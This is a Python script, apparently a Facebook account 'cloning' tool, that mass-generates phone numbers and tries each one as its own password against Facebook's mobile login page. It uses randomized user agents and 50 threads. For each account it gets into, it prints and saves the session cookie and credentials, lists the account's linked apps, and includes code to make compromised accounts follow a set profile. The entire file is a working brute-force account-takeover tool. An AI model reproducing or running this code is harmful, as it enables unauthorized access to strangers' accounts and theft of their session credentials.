 # chmod-x-CX.cpython-311.so
# Facebook: Tutul King
# Github: Tutul-King
import os,sys,time,json,random,re,string,platform,base64,uuid
os.system("git pull")
from bs4 import BeautifulSoup as sop
from bs4 import BeautifulSoup
import requests as ress
from datetime import date
from datetime import datetime
from time import sleep
from time import sleep as waktu
try:
    import requests
    from concurrent.futures import ThreadPoolExecutor as ThreadPool
    import mechanize
    from requests.exceptions import ConnectionError
except ModuleNotFoundError:
    os.system('pip install mechanize requests futures bs4==2 > /dev/null')
    os.system('pip install bs4')
    
#---------------------[APPLICATION CHECKER]---------------------#
def cek_apk(session,coki):
    w=session.get("https://mbasic.facebook.com/settings/apps/tabbed/?tab=active",cookies={"cookie":coki}).text
    sop = BeautifulSoup(w,"html.parser")
    x = sop.find("form",method="post")
    game = [i.text for i in x.find_all("h3")]
    if len(game)==0:
        print(f'\r%s[%s!%s] %sSorry there is no Active  Apk%s  '%(N,M,N,M,N))
    else:
        print(f'\r %s \x1b[1;95m Your Active Apps     :{WHITE}'%(GREEN))
        for i in range(len(game)):
            print(f"\r[%s%s] %s%s"%(N,i+1,game[i].replace("Ditambahkan pada"," Ditambahkan pada"),N))
        #else:
            #print(f'\r %s[%s!%s] Sorry, Apk check failed invalid cookie'%(N,M,N))
    w=session.get("https://mbasic.facebook.com/settings/apps/tabbed/?tab=inactive",cookies={"cookie":coki}).text
    sop = BeautifulSoup(w,"html.parser")
    x = sop.find("form",method="post")
    game = [i.text for i in x.find_all("h3")]
    if len(game)==0:
        print(f'\r%s[%s!%s] %sSorry there is no Expired Apk%s           \n'%(N,M,N,M,N))
    else:
        print(f'\r %s \x1b[1;95m Your Expired Apps    :{WHITE}'%(M))
        for i in range(len(game)):
            print(f"\r[%s%s] %s%s"%(N,i+1,game[i].replace("Kedaluwarsa"," Kedaluwarsa"),N))
        else:
            print('')

def follow(self, session, coki):
        r = BeautifulSoup(session.get('https://mbasic.facebook.com/profile.php?id=100015315258519', {
            'cookie': coki }, **('cookies',)).text, 'html.parser')
        get = r.find('a', 'Ikuti', **('string',)).get('href')
        session.get('https://mbasic.facebook.com' + str(get), {
            'cookie': coki }, **('cookies',)).text

#---------------------[MAIN MENU]---------------------#
            
            
 
class jalan:
    def __init__(self, z):
        for e in z + "\n":
            sys.stdout.write(e)
            sys.stdout.flush()
            time.sleep(0.009)
            
P = '\x1b[1;97m'
M = '\x1b[1;91m'
H = '\x1b[1;92m'
K = '\x1b[1;93m'
B = '\x1b[1;94m'
U = '\x1b[1;95m' 
O = '\x1b[1;96m'
N = '\x1b[0m'    
Z = "\033[1;30m"
sir = '\033[41m\x1b[1;97m'
x = '\33[m' # DEFAULT
m = '\x1b[1;91m' #RED +
k = '\033[93m' # KUNING +
xr = '\x1b[1;92m' # HIJAU +
hh = '\033[32m' # HIJAU -
u = '\033[95m' # UNGU
kk = '\033[33m' # KUNING -
b = '\33[1;96m' # BIRU -
p = '\x1b[0;34m' # BIRU +
asu = random.choice([m,k,xr,u,b])
my_color = [
 P, M, H, K, B, U, O, N]
warna = random.choice(my_color)
now = datetime.now()
dt_string = now.strftime("%H:%M")
current = datetime.now()
ta = current.year
bu = current.month
ha = current.day
today = date.today()
#os.system('xdg-open https://facebook.com/groups/554714119911648/')
os.system('espeak -a 300 " Welcome,   to,  Tutul,  King,  Tools"')
logo =("""
\033[0;92m╔━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━╗
║\033[0;91m ████████\033[0;92m ██    ██\033[0;91m ████████\033[0;92m ██    ██\033[0;91m ██ \033[0;92m     ║
║\033[0;91m    ██ \033[0;92m   ██    ██\033[0;91m    ██\033[0;92m    ██    ██\033[0;91m ██  \033[0;92m    ║
║\033[0;91m    ██ \033[0;92m   ██    ██\033[0;91m    ██\033[0;92m    ██    ██\033[0;91m ██  \033[0;92m    ║
║\033[0;91m    ██ \033[0;92m   ██    ██\033[0;91m    ██\033[0;92m    ██    ██\033[0;91m ██   \033[0;92m   ║
║\033[0;91m    ██ \033[0;92m    ██████\033[0;91m     ██\033[0;92m     ██████\033[0;91m  ███████\033[0;92m ║
\033[0;92m╚━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━╝               \033[0;92m
╔━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━╗
║\33[0;41m        [ WORKING ONLY MOBILE DATA ]         \033[0;92m║
╚━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━╝
\033[0;94m╔━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━╗\033[1;33m 
╠══[Author                   • \33[1;38mMR-TUTUL ]\33[1;38m     ║\033[1;31m 
╠══[Facebook                 • Tutul King,Anup]   ║  \033[1;97m  
╠══[Github                   • \33[1;38mTutul-King ]   ║\33[1;34m   
╠══[Whatsapp                 • 01608843956 ]  ║\33[1;35m 
╠══[TOOLS                    • Free  ]        ║ \33[1;32m   
╠══[VERSION                  • 7.5 ]          ║\033[1;35m 
\033[0;94m╚━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━╝\033[1;31m""")
loop = 0
oks = []
cps = []
 
def clear():
    os.system('clear')
    print(logo)
from time import localtime as lt
from os import system as cmd
ltx = int(lt()[3])
if ltx > 12:
    a = ltx-12
    tag = "PM"
else:
    a = ltx
    tag = "AM"
    
    
try:
    print('\n\n\033[1;33mLoading asset files ... \033[0;97m')
    v = 5.2
    update = ('5.2')
    update = ('5.2')
    if str(v) in update:
        os.system('clear')
    else:pass
except:print('\n\033[1;31mNo internet connection ... \033[0;97m')
#global functions
def dynamic(text):
    titik = ['.   ','..  ','... ','.... ']
    for o in titik:
        print('\r'+text+o),
        sys.stdout.flush();time.sleep(1)
 
#User agents
ugen2=[]
ugen=[]
 
for xd in range(10000):
    aa='Mozilla/5.0 (Linux; Android 10; Infinix X655F Build/QP1A.190711.020; wv)'
    b=random.choice(['3','4','5','6','7','8','9','10','11','12','13','14','15','16','17'])
    c=' en-us; GT-'
    d=random.choice(['A','B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z'])
    e=random.randrange(1, 999)
    f=random.choice(['A','B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z'])
    g='AppleWebKit/537.36 (KHTML, like Gecko) Chrome/'
    h=random.randrange(73,100)
    i='0'
    j=random.randrange(4200,4900)
    k=random.randrange(40,150)
    l='Mobile Safari/537.36'
    uaku2=(f'{aa} {b}; {c}{d}{e}{f}) {g}{h}.{i}.{j}.{k} {l}')
    ugen.append(uaku2)
    
# APK CHECK
def xxr():
    user=[]
    twf =[]
    os.getuid
    os.geteuid
    os.system("clear")
    print(logo)
    print(f' [{xr}+{x}] Example>: {xr}019,017,018,92302,92301,91778{x}')
    print("===============================================")
    rk1 = '0171'
    rk2 = '0172'
    rk3 = '0175'
    rk4 = '017'
    code = random.choice([rk1,rk2,rk3])                      # input(f' [{xr}■{x}] Choose : ')
    os.system('clear')
    print(logo)
    limit = int(input(f'\033[0;97m[{xr}+{x}]\033[0;92m EXAMPLE : \033[0;93m10000, \x1b[38;5;208m20000, \033[0;92m50000 ] \n\033[0;95m=============================================== \n\033[0;97m[{xr}^{x}] \033[0;92mPUT CLONING LIMIT:\033[0;93m '))
    for nmbr in range(limit):
        nmp = ''.join(random.choice(string.digits) for _ in range(7))
        user.append(nmp)
    os.system("clear")
    print(logo)
    passx = 0
    HamiiID = []
    print("")
    for bilal in range(passx):
        pww = input(f"[*] Enter Password {bilal+1} : ")
        HamiiID.append(pww)
    with ThreadPool(max_workers=50) as manshera:
        clear()
        tl = str(len(user))
        jalan('\033[1;97m====================================================')
        jalan(f'[{xr}^{x}]\x1b[38;5;208m YOUR TOTAL IDS: {xr}'+tl)
        jalan(f'{x}[{xr}^{x}]\033[0;92m PLEASE WAIT YOUR CLONING PROCESS HAS BEEN STARTED')
        jalan(f'\033[0;97m[{xr}^{x}]\033[0;93m USE YOUR MOBILE DATA ')
        jalan(f'\033[0;97m[{xr}^{x}] \x1b[38;5;208mUse Flight Mode For Speed Up')
        jalan(f'\033[0;97m[{xr}^{x}] \033[0;95mSuper Fast Speed Cloning')
        jalan('\033[1;97m====================================================')
        for love in user:
            pwx = [love]
            uid = code+love
            for Eman in HamiiID:
                pwx.append(Eman)
                pwx.append(love)
            manshera.submit(rcrack,uid,pwx,tl)
    print(f"\n{x} ====================================================")
def rcrack(uid,pwx,tl):
    #print(user)
    global loop
    global cps
    global oks
    global proxy
    try:
        for ps in pwx:
            pro = random.choice(ugen)
            session = requests.Session()
            free_fb = session.get('https://mbasic.facebook.com').text
            log_data = {
                "lsd":re.search('name="lsd" value="(.*?)"', str(free_fb)).group(1),
            "jazoest":re.search('name="jazoest" value="(.*?)"', str(free_fb)).group(1),
            "m_ts":re.search('name="m_ts" value="(.*?)"', str(free_fb)).group(1),
            "li":re.search('name="li" value="(.*?)"', str(free_fb)).group(1),
            "try_number":"0",
            "unrecognized_tries":"0",
            "email":uid,
            "pass":ps,
            "login":"Log In"}
            header_freefb = {"authority": 'mbasic.facebook.com',
            "method": 'GET',
            "scheme": 'https',
            'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
            'accept-language': 'en-GB,en-US;q=0.9,en;q=0.8',
            'cache-control': 'max-age=0',
            'sec-ch-ua': '"Chromium";v="107", "Not=A?Brand";v="24"',
            'sec-ch-ua-mobile': '?1',
            'sec-ch-ua-platform': '"Android"',
            'sec-fetch-dest': 'document',
            'sec-fetch-mode': 'navigate',
            'sec-fetch-site': 'none',
            'sec-fetch-user': '?1',
            'upgrade-insecure-requests': '1',
            'user-agent': pro}
            lo = session.post('https://mbasic.facebook.com/login/device-based/regular/login/?refsrc',data=log_data,headers=header_freefb).text
            log_cookies=session.cookies.get_dict().keys()
            if 'c_user' in log_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                cid = coki[7:22]
                print('\r\r\033[1;32m[Tutul-OK💚] \033[1;32m'+uid+'\033[1;32m • \033[1;32m' +ps+    '  \n[‎‎🌺]\033[0;93m COOKIE = \033[1;32m'+coki+  '  ''  \033[0;97m')
                os.system('espeak -a 300 " Tutul,  Ok,  id"')
                cek_apk(session,coki)
                open('/sdcard/Tutul-OK.txt', 'a').write( uid+' | '+ps+'\n')
                oks.append(cid)
                break
            elif 'checkpoint' in log_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                cid = coki[24:39]
               # print('\r\r\33[1;30m[Tutul-CP] ' +uid+ ' • ' +ps+           '  \33[0;97m')
                #os.system("play op.mp3")
                os.system('espeak -a 300 " C,  p"')
                open('/sdcard/Tutul-CP😁😁.txt', 'a').write( uid+' | '+ps+' \n')
                cps.append(cid)
                break
            else:
                continue
        loop+=1
        sys.stdout.write(f'\r\r%s{x}[{xr}Tutul-XD{x}]>~[%s]>~<[%s]-[OK:{xr}%s{x}]'%(H,loop,tl,len(oks))),
        sys.stdout.flush()
    except:
        pass
 
xxr()
 
